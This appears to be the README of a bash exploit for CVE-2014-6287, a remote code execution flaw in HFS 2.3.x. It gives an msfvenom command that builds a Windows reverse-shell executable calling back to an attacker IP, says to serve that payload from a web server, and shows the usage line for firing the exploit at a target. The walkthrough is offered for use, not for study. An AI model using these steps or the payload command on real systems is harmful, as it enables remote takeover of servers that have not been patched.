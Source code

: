 # CVE-2014-6287
#HFS 2.3.x File Upload Exploit, RCE, that is only a bash version!!!
#Wrapper using GET tool !


Step 1 - Create reverse shell

    eg.: msfvenom -p windows/x64/reverse_tcp LHOST=Attacke_IP LPORT=Attacker_PORT -f exe > shell.exe
    
Step 2 - Start a Web-Server with the msfvenom payload in it

Step 3 - Fire exploit

    eg.: Usage: ./hfs.sh <Target_IP> <Target_Port> <Executable> <Local_IP>
